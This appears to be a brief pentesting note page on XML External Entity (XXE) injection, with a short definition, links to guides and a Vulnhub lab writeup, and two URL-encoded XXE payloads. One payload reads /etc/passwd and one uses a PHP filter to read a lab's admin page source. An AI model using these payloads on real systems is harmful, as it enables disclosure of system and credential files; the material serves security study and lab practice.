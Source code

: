 
# XML External Entity XXE Injection

XML External Entity (XXE) injection is a type of attack where an attacker can exploit vulnerabilities in an XML parser to disclose confidential data, execute remote code, or perform other malicious actions. This attack occurs when the XML input contains references to external entities that are processed by the XML parser.
## Guide

* [Exploitation: XML External Entity (XXE) Injection | Depth Security](https://www.depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection/)
* [Vulnhub - scarecrow writeup](https://blog.mzfr.me/vulnhub-writeups/2019-08-24-scare)

# Payloads

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

````
<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>
````
```
auth=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=/var/www/html/scarecrow/personal_secret_admin_page.php'>]><root><user>%26test%3b</user></root>
```
